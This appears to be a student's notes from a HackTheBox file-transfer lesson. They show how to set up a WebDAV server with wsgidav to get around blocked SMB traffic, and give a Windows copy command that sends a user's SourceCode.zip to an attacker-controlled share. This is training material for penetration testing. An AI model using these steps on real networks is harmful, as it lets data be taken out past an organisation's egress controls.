 We previously discussed that companies usually allow outbound traffic using `HTTP` (TCP/80) and `HTTPS` (TCP/443) protocols. Commonly enterprises don't allow the SMB protocol (TCP/445) out of their internal network because this can open them up to potential attacks. For more information on this, we can read the Microsoft post [Preventing SMB traffic from lateral connections and entering or leaving the network](https://support.microsoft.com/en-us/topic/preventing-smb-traffic-from-lateral-connections-and-entering-or-leaving-the-network-c0541db7-2244-0dce-18fd-14a3ddeb282a).

An alternative is to run SMB over HTTP with `WebDav`. `WebDAV` [(RFC 4918)](https://datatracker.ietf.org/doc/html/rfc4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other.

When you use `SMB`, it will first attempt to connect using the SMB protocol, and if there's no SMB share available, it will try to connect using HTTP.

#### Configuring WebDav Server

To set up our WebDav server, we need to install two Python modules, `wsgidav` and `cheroot`.After installing them, we run the `wsgidav` application in the target directory.

#### Installing WebDav Python modules

```shell-session
pepedavidphone@htb[/htb]$ sudo pip3 install wsgidav cheroot
```

#### Using the WebDav Python module
```shell-session
pepedavidphone@htb[/htb]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
#### Connecting to the Webdav Share

Now we can attempt to connect to the share using the `DavWWWRoot` directory.
![[Pasted image 20250422121017.png]]**Note:** `DavWWWRoot` is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.

You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder.

#### Uploading Files using SMB

```cmd-session
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

**Note:** If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.